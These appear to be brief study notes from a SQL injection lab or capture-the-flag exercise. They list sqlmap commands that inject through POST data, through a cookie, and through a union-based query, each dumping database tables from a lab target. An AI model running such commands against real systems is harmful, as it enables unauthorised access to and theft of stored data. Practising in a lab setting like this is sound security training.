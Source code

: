 
BURP za header visualization
### post REQUEST

```bash
sqlmap -u http://94.237.62.198:55804/case2.php --data "<param>=1" --batch --dump
```



### cookie manipulation

``` bash 
sqlmap -u http://94.237.62.198:55804/case3.php --cookie="<param>=1*" --batch --dump
```

#### specify union based

```bash 
 sqlmap -u http://94.237.62.198:55804/case7.php?id=1 --technique=U --union-cols=5 --risk=3 --dump --batch -T flag7

```